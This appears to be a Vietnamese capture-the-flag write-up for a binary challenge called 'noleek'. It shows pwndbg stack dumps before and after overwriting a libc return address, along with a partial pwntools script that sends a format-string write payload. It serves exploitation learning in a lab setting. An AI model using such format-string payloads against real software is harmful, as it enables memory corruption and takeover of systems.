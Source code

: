 - trước khi overwrite

```cs
18:00c0│+090 0x7ffd277e2230 —▸ 0x7ffd277e2298 —▸ 0x7ffd277e21a8 —▸ 0x7fa646418d0a (__libc_start_main+234) ◂— mov edi, eax
19:00c8│+098 0x7ffd277e2238 —▸ 0x7ffd277e22a8 —▸ 0x7ffd277e2c66 ◂— 'SHELL=/usr/bin/bash'
1a:00d0│+0a0 0x7ffd277e2240 —▸ 0x7fa6465f8180 —▸ 0x55e00ede5000 ◂— 0x10102464c457f
1b:00d8│+0a8 0x7ffd277e2248 ◂— 0
1c:00e0│+0b0 0x7ffd277e2250 ◂— 0
1d:00e8│+0b8 0x7ffd277e2258 —▸ 0x55e00ede60a0 (_start) ◂— xor ebp, ebp
1e:00f0│+0c0 0x7ffd277e2260 —▸ 0x7ffd277e2290 ◂— 1
1f:00f8│+0c8 0x7ffd277e2268 ◂— 0
pwndbg>
20:0100│+0d0 0x7ffd277e2270 ◂— 0
21:0108│+0d8 0x7ffd277e2278 —▸ 0x55e00ede60ca (_start+42) ◂— hlt
22:0110│+0e0 0x7ffd277e2280 —▸ 0x7ffd277e2288 ◂— 0x1c
23:0118│+0e8 0x7ffd277e2288 ◂— 0x1c
24:0120│+0f0 0x7ffd277e2290 ◂— 1
25:0128│+0f8 0x7ffd277e2298 —▸ 0x7ffd277e21a8 —▸ 0x7fa646418d0a (__libc_start_main+234) ◂— mov edi, eax
```

- sau khi overwrite

```cs
18:00c0│+090 0x7ffd277e2230 —▸ 0x7ffd277e2298 —▸ 0x7ffd277e21a8 —▸ 0x7fa6464188e9 ◂— mov r8, rax
19:00c8│+098 0x7ffd277e2238 —▸ 0x7ffd277e22a8 —▸ 0x7ffd277e2c66 ◂— 'SHELL=/usr/bin/bash'
1a:00d0│+0a0 0x7ffd277e2240 —▸ 0x7fa6465f8180 —▸ 0x55e00ede5000 ◂— 0x10102464c457f
1b:00d8│+0a8 0x7ffd277e2248 ◂— 0
1c:00e0│+0b0 0x7ffd277e2250 ◂— 0
1d:00e8│+0b8 0x7ffd277e2258 —▸ 0x55e00ede60a0 (_start) ◂— xor ebp, ebp
1e:00f0│+0c0 0x7ffd277e2260 —▸ 0x7ffd277e2290 ◂— 1
1f:00f8│+0c8 0x7ffd277e2268 ◂— 0
pwndbg>
20:0100│+0d0 0x7ffd277e2270 ◂— 0
21:0108│+0d8 0x7ffd277e2278 —▸ 0x55e00ede60ca (_start+42) ◂— hlt
22:0110│+0e0 0x7ffd277e2280 —▸ 0x7ffd277e2288 ◂— 0x1c
23:0118│+0e8 0x7ffd277e2288 ◂— 0x1c
24:0120│+0f0 0x7ffd277e2290 ◂— 1
25:0128│+0f8 0x7ffd277e2298 —▸ 0x7ffd277e21a8 —▸ 0x7fa6464188e9 ◂— mov r8, rax
```

- vậy đơn giản ta sẽ làm 1 phép tính đơn giản (og + libc_base) - địa chỉ vừa ghi  , ta sẽ padding thêm số byte với địa chỉ vừa ghi là sẽ thành công


exp : 


```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./noleek_patched")
libc = ELF("./libc-2.31.so")

context.binary = exe

#p = process()
p = remote('localhost',5000)

payload = f'%*c%{0x38}c%29$n'.encode()
input()
p.sendlineafter(b'leek? ',payload)

offset = 42

```